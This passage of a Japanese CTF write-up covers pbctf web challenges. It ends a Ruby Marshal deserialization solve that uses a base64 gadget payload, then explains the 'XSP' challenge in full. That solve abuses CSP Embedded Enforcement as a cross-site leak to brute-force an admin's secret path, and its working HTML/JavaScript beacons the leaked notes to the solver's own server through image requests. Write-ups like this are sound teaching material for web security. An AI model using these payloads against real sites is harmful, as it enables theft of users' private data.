  'user[name]': base64.b64decode("BAhvOglOb3RlCToIQGlkSSIGQwY6BkVUOgxAYXV0aG9ybzpAQWN0aXZlU3VwcG9ydDo6RGVwcmVjYXRpb246OkRlcHJlY2F0ZWRJbnN0YW5jZVZhcmlhYmxlUHJveHkJOg5AaW5zdGFuY2VvOhVHZW06OlNvdXJjZTo6R2l0CzoJQGdpdEkiDy9yZWFkX2ZsYWcGOwdUOhBAcmVwb3NpdG9yeUkiJGh0dHBzOi8vZ2l0aHViLmNvbS9qd3QvcnVieS1qd3QGOwdUOgxAcmVtb3RlSSIABjsHVDoOQHJvb3RfZGlySSINL2FwcC90bXAGOwdUOgpAbmFtZUkiAAY7B1Q6D0ByZWZlcmVuY2VJIgAGOwdUOgxAbWV0aG9kOg5yZXZfcGFyc2U6CUB2YXJJIg9AcmV2X3BhcnNlBjsHVDoQQGRlcHJlY2F0b3JvOh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgY6DkBzaWxlbmNlZFQ6CkBib2R5SSIGQgY7B1Q6CkBkYXRlVToNRGF0ZVRpbWVbC2kAaQBpAGkAaQBmDDIyOTkxNjE="),
  'id[]': PATH
})
req = sess.get(BASE + PATH)
print(req.text)
```

```
$ python solve.py
...
<div class="card" style="width: 24rem;">
  <div class="card-body">
    <h4 class="card-title">flag{wh3n_c0un7_d035n7_c0un7}</h4>
    <h6 class="card-subtitle mb-2 text-muted">-4712-01-01 00:00:00</h6>
    <p class="card-text">B</p>
  </div>
</div>
...
```

フラグが得られました。

```
pbctf{wh3n_c0un7_d035n7_c0un7}
```

## [Web 443] XSP (3 solves)
> Another notes app: (URL)
> 
> By: Jazzy
> 
> 添付ファイル: app.py

与えられた URL にアクセスすると、以下のようにメモを取れる Web アプリケーションが表示されました。



`List Notes` からメモの一覧が閲覧できますが、このページの実装は以下のようになっています。ちなみに、`/data/38/9e/57/fb/8b/b6/ad/5f/e2/67/eb/7f/8b/29/7f/b6` というパスはユーザによって異なっているようです。

```html
<body>
    <h1>NOTES</h1>
    <div id="notes">
    </div>
    <script src="/notes.js"></script>
    <script src="/data/38/9e/57/fb/8b/b6/ad/5f/e2/67/eb/7f/8b/29/7f/b6" async defer></script>
</body>
```

`/notes.js` は以下のような内容です。`notes_callback` という記事の表示のための関数のみが定義されています。

```javascript
        function notes_callback(notes){
            notes.forEach(function(note){
                let name = note['name']
                let data = note['data']

                let name_node = document.createElement("h3");
                name_node.innerHTML = name;
                
                document.getElementById('notes').appendChild(name_node);

                let data_node = document.createElement("h5");
                data_node.innerHTML = data;

                document.getElementById('notes').appendChild(data_node);
                
            });
        }
```

`/data/38/9e/57/fb/8b/b6/ad/5f/e2/67/eb/7f/8b/29/7f/b6` は以下のような内容です。JSONP によって記事の内容を表示しているようです。

```javascript
notes_callback([{"data": "content", "name": "name"}])
```

`Report Link` というページは、以下のように URL を報告すると admin が巡回しに来るというものです。admin のメモ一覧にアクセスできるパス (`data_path`) を特定し、投稿されたメモを盗み出せということでしょうか。



なお、この Web アプリケーションで設定されている CSP は、全ページで以下のように非常に厳しいものになっています。`/notes.js` もしくは JSONP の JavaScript コードしか実行できません。

```
content-security-policy: default-src 'none'; script-src https://(省略)/notes.js https://(省略)/data/38/9e/57/fb/8b/b6/ad/5f/e2/67/eb/7f/8b/29/7f/b6
```

### CSP Embedded Enforcement の悪用
まずすべきことは、admin の `data_path` を特定することです。

しばらく考えて、ポリシーに `data_path` が含まれていることが使えるのではないかというアイデアが出ました。具体的な方法として思いついたのは [CSP Embedded Enforcement](https://w3c.github.io/webappsec-cspee/) とよばれるセキュリティ機構の悪用でした。

CSP Embedded Enforcement は、

1. `iframe` 要素で `csp` 属性として埋め込む Web ページに要求するポリシーを設定すると、
2. 埋め込む Web ページへの HTTP リクエストで `Sec-Required-CSP` という HTTP リクエストヘッダによってポリシーが提案され、
3. 埋め込まれた Web ページは、要求されたポリシーと同等以上に厳しいポリシーを含んだ `Content-Security-Policy` HTTP レスポンスヘッダか、要求されたポリシーを受け入れることを示す `Allow-CSP-From` HTTP レスポンスヘッダを返す

というような流れで `iframe` 要素による埋め込み先のページにポリシーを強制することができるというものです。なお、もし埋め込まれた Web ページが要求されたポリシーを受け入れない (例えば、より緩いポリシーを返す) 場合には読み込みがブロックされます。

CSP Embedded Enforcement は、Google Chrome で既に実装され、デフォルトで有効化されています。`Report Link` から適当な URL を送信すると `Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/88.0.4298.0 Safari/537.36` という User-Agent を持つ HTTP リクエストが来ますから、admin の環境では有効化されているはずです。

CSP Embedded Enforcement がこの問題での `data_path` のリークに使えるかどうか考えていきましょう。

`data_path` が `/data/f4/71/8b/8/ef/e2/61/33/a2/d0/89/5b/6/53/e7/a3` である場合について考えます。以下のような 2 つの `iframe` があった場合、前者は読み込みがブロックされますが、後者では普通に読み込まれます。

これは、いずれの場合でも Web ページは `default-src 'none'; script-src https://(省略)/notes.js /data/f4/71/8b/8/ef/e2/61/33/a2/d0/89/5b/6/53/e7/a3` というポリシーを返しますが、前者の場合には、要求したポリシーでは読み込みを許可しない `/data/f4/...` というディレクトリについても許可するようなより緩いポリシーを返したと判断されるためです。

```html
<iframe src="https://(省略)/notes" csp="default-src 'none'; script-src https://(省略)/notes.js https://(省略)/data/f3/"></iframe>
<iframe src="https://(省略)/notes" csp="default-src 'none'; script-src https://(省略)/notes.js https://(省略)/data/f4/"></iframe>
```

Web ページの読み込みがブロックされたかどうかは、`onload` された後にその `iframe` 要素の `src` 属性に `#` を加え、その後再び `onload` が呼び出されたかどうかによって観測できます。

例えば、`data_path` が `/data/38/9e/57/fb/8b/b6/ad/5f/e2/67/eb/7f/8b/29/7f/b6` である場合に次のような HTML を開くと、

```html
<body>
<script>
for (let i = 0x38 - 2; i <= 0x38 + 2; i++) {
  const iframe = document.createElement('iframe');
  iframe.onload = () => {
    iframe.onload = () => {
      console.log(i.toString(16));
    };
    iframe.src += '#';
  };
  iframe.csp = `default-src 'none'; script-src https://(省略)/notes.js https://(省略)/data/${i.toString(16)}/`;
  iframe.src = 'https://(省略)/notes';
  document.body.appendChild(iframe);
}
</script>
</body>
```

次のように 3 番目に読み込まれた (`csp` 属性が `default-src 'none'; script-src https://(省略)/notes.js https://(省略)/data/38/` であるもの) のみ読み込みがブロックされず、DevTools の Console 欄でも `38` だけが `console.log` によって表示されていないことがわかります。



これを利用すれば、スラッシュ区切りの各パートを総当たりしていけば `data_path` を特定することができそうです。

簡単に `data_path` を特定できるように、以下のようなスクリプトを書きました。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
<iframe src="wait.php"></iframe>
<script>
const [start, known] = [0x20, '6f/']

/////

const iframes = [];
for (let i = 0; i < 16; i++) {
  const iframe = document.createElement('iframe');
  iframes.push(iframe);
  document.body.appendChild(iframe);
}

const check = base => new Promise((resolve, reject) => {
  let result = new Array(16);
  for (let i = 0; i < 16; i++) {
    result.fill(true);

    const iframe = iframes[i];
    const j = i + base;
    const s = j.toString(16);
    iframe.csp = `default-src 'none'; script-src https://(省略)/notes.js https://(省略)/data/${known}${s}/`;
    iframe.src = 'https://(省略)/notes';
    iframe.onload = () => {
      iframe.onload = () => {
        result[i] = false;
      };
      iframe.src += '#';
    };
  }

  setTimeout(() => {
    for (let i = 0; i < 16; i++) {
      if (result[i]) {
        resolve((i + base).toString(16));
      }
    }
    resolve(null);
  }, 5000);
});

(async () => {
  for (let i = start; i < 0x100; i += 0x10) {
    (new Image).src = 'start.php?' + i.toString(16);
    const result = await check(i);
    if (result !== null) {
      (new Image).src = 'report.php?' + result;
    }
  }
})();
</script>
</body>
</html>
```

この場合は `data_path` を `/` で区切った 2 番目の部分について総当たりで確認しています。`Report Link` でこの HTML を返す URL を報告すると、次の画像のように admin から HTTP リクエストが飛んできます。`2d` が正解なようです。



ちまちま繰り返していくと、`/data/6f/2d/ab/fd/c5/a1/96/6b/b6/2c/fc/51/42/67/45/8` が admin の `data_path` であることがわかります。

最終的に、以下のように JSONP を使うことでフラグが得られました。

```html
<script>
	function notes_callback(obj) {
		console.log(obj);
		(new Image).src = 'flag.php?' + encodeURIComponent(JSON.stringify(obj))
	}
</script>
<script src="https://(省略)/data/6f/2d/ab/fd/c5/a1/96/6b/b6/2c/fc/51/42/67/45/8"></script>
```

```
pbctf{x5_l34k5_1N_C5P_1s_4ls0_p0sS1bl3}
```